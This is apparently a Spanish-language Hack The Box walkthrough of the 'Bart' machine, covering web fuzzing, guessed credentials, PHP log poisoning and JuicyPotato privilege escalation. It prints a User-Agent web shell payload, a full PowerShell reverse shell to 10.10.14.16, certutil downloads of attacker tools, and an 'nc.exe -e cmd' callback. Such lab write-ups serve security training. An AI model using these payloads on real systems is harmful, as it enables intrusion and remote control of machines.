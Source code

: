 # 10.10.10.81 - Bart
![Bart](https://user-images.githubusercontent.com/96772264/208634293-52ab7572-4f52-466c-bae8-ff736d1350e9.png)
--------------------
# Part 1: Reconocimiento inicial:

Puertos abiertos 80(http):
```console
└─$ whatweb http://10.10.10.81
HTTPServer[Microsoft-IIS/10.0], PHP[7.1.7], RedirectLocation[http://forum.bart.htb/], X-Powered-By[PHP/7.1.7]
ERROR Opening: http://forum.bart.htb/ - no address for forum.bart.htb
```
Ya el reconocimiento nos dice que hay dos subdominios interesantes:

```console
└─$ whatweb http://forum.bart.htb/
Email[d.simmons@bart.htb,h.potter@bart.htb,info@bart.htb,r.hilton@bart.htb,s.brown@bart.loca,s.brown@bart.local], HTML5, HTTPServer[Microsoft-IIS/10.0], JQuery, MetaGenerator[WordPress 4.8.2], Microsoft-IIS[10.0]

└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ/
000000054:   200        548 L    2412 W     35529 Ch    "forum"
└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ.php
000000002:   302        0 L      0 W        0 Ch        "index"
```

Si entramos en /forum nos da error, forum.bart nos da al mismo sitio.
![bart1](https://user-images.githubusercontent.com/96772264/208634337-5d471098-a648-49aa-b479-e706902572c0.PNG)

```console
└─$ wfuzz -c --hw=0 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.bart.htb" -u http://bart.htb/ -t 100

000000023:   200        548 L    2412 W     35529 Ch    "forum"
000000099:   200        80 L     221 W      3423 Ch     "monitor"
```
--------------------
# Part 2: User Leak

Nos dan un panel de login. 
![bart2](https://user-images.githubusercontent.com/96772264/208634424-8b2e5fbc-860c-485e-b742-4e2a12fc2271.PNG)

```
/POST a http://monitor.bart.htb/
{"csrf":"9cc6a04531b9c32001c04abc517839b1ddd6b040190b2daf8e81e49ec5bd3de8","user_name":"admin","user_password":"admin","action":"login"}
```
Por ser php intento bypasearlo con cosas como password=true (type juggling) o las inyecciones sql tipicas ```' or 1=1--```
Como no hay manera buscamos mas directorios.
```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ.php
000000002:   200        80 L     221 W      3423 Ch     "index"
000000702:   200        90 L     283 W      3714 Ch     "install"
000001477:   200        0 L      0 W        0 Ch        "config"
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ/
000000256:   200        7 L      10 W       140 Ch      "static"
000000770:   200        7 L      10 W       140 Ch      "src"
000002410:   200        7 L      10 W       140 Ch      "cron"
```

install.php nos resuelve a una web que dice de instalar el programa, bajo ```/install.php?action=``` se efectuan acciones como "install" o "config"
(fuzee pero no hay mas)

![bart3](https://user-images.githubusercontent.com/96772264/208634495-7ce17ce9-0645-4ddd-9d81-d6a2a719e022.PNG)

Volviendo al login, La parte de **forgot password** nos pide un "nombre"

En la web de bart salian los nombres de tres personas (mas una cuarta oculta en el codigo fuente):
![bart4](https://user-images.githubusercontent.com/96772264/208634535-cade2ec7-cc19-4f7d-bfac-f9aae651dcff.PNG)
```console
└─$ curl -s http://bart.htb/forum/ | grep -E "name|mail" | tr -d "\n" > users.txt
```
```
Samantha Brown -> s.brown@bart.local
Daniel Simmons -> d.simmons@bart.htb  -> existe
Robert Hilton -> r.hilton@bart.htb
Harvey Potter -> h.potter@bart.htb    -> existe
```
En la parte de login como contraseña pruebo antes de hacer fuzzing, tanto "bart" como los apellidos de los  usaurios. Resuelve el nombre "harvey" con la 
contraseña "potter" (Si no, habria que hacerse un script de python arrastrando el token)
![bart5](https://user-images.githubusercontent.com/96772264/208634679-065140f6-7ebb-42d8-9191-f321281978d2.PNG)

--------------------
# Part 3: PHP Log Poisoning

En /servers sale un nuevo dominio ```internal-01.bart.htb```
Nos volvemos a topar con otro panel de login

/login.php -> "uname":"test","passwd":"test","submit":"Login"
```console
└─$ curl -X POST -s "http://internal-01.bart.htb/simple_chat/login.php" -d "uname=test&passwd=test&submit=Login"
# Nada
```
```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt "http://internal-01.bart.htb/simple_chat/FUZZ.php"
000000001:   302        0 L      0 W        0 Ch        "index"
000000051:   302        0 L      0 W        0 Ch        "register"
000000039:   302        0 L      0 W        0 Ch        "login"
000000324:   302        2 L      0 W        4 Ch        "chat"
000001144:   302        0 L      0 W        0 Ch        "logout"

└─$ curl -s "http://internal-01.bart.htb/simple_chat/register.php" -d "uname=cucuxii&passwd=cucuxii123"
# EN el navegador da error pero aquí funciona.
```

Al poner las creds otra vez en el panel de registro, "cucuxii" "cucuxii123" entramos.
En network salen peticiones /POST a "/simple-chat/chat.php" ```@harvey: Tio! No pongas codigo aquí, es un servidor en producción!```
Posibles inyecciones de todo tipo no funionan ```<script>alert(1)</script>```, ```{{7*7}}```
![bart6](https://user-images.githubusercontent.com/96772264/208634792-57fe24ca-49d2-49a9-abe5-732490ea68a3.PNG)

Si miramos el código fuente:
```console
└─$ curl -s http://internal-01.bart.htb/ -H "Cookie: PHPSESSID=npju0k7b5bireh5g8gld8frtsb" > main.js
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
```
![bart8](https://user-images.githubusercontent.com/96772264/208634848-2eabd3a1-683e-4e2a-a744-011961277934.PNG)
Esta ruta tiene dos parametros "archivo" y "usuario". Porbamos un LFI...
```
http://internal-01.bart.htb/log/log.php?filename=C:\Windows\System32\Drivers\etc\hosts&username=daniel # permision denied
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniell -> 0
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniel -> 1
```
Cambiamos cosas como log.txt -> log.php o test.php
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=log.php&username=daniel'
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel'
1[2022-12-20 11:34:03] - daniel - curl/7.84.0
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'  
[2022-12-20 11:34:19] - daniel - curl/7.84.0  
```
Parece que nos crea el archivo que se pasa en el parámetro "filename"
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel' \
> -H 'User-Agent: <?php system("whoami")?>'
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'
[2022-12-20 11:34:19] - daniel - curl/7.84.0[2022-12-20 11:37:07] - daniel - curl/7.84.0[2022-12-20 11:37:40] - daniel - nt authority\iusr
```
Se da un "Log Poisoning" que consiste en iinyectar codigo en los logs que luego se interpreta
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=testt.php&username=daniel' -H 'User-Agent: <?php system($_REQUEST['cmd']); ?>'
└─$ curl -s 'http://internal-01.bart.htb/log/testt.php?cmd=whoami'
[2022-12-20 11:46:09] - daniel - nt authority\iusr

└─$ curl -s "http://internal-01.bart.htb/log/testt.php?cmd=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.16%27%2C666%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```
Esta es la version urlencodeada de la [reverse shell de una sola linea](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Ya estamos en el sistema: 
Si empezamos con la enumeración, enseguida encontramos algo sospechoso:
```console
PS C:\Windows\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
Este privilegio "SeImpersonatePrivilege" nos permite explotar el [juicy potato](https://github.com/ohpe/juicy-potato/releases)

```console
PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/JP.exe
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" # error
```
Hay que encontrar un CLSID para windows 10 Pro. [Aqui se encuentran](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
```console
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/nc.exe
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Prueba\nc.exe -e cmd 10.10.14.16 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

└─$ sudo nc -nlvp 443
C:\Windows\system32>whoami
```
Ahora solo falta encontrar la flag con el comando ```cmd /c dir /r /s user.txt``` Esta en  C:\Users\h.potter\Desktop

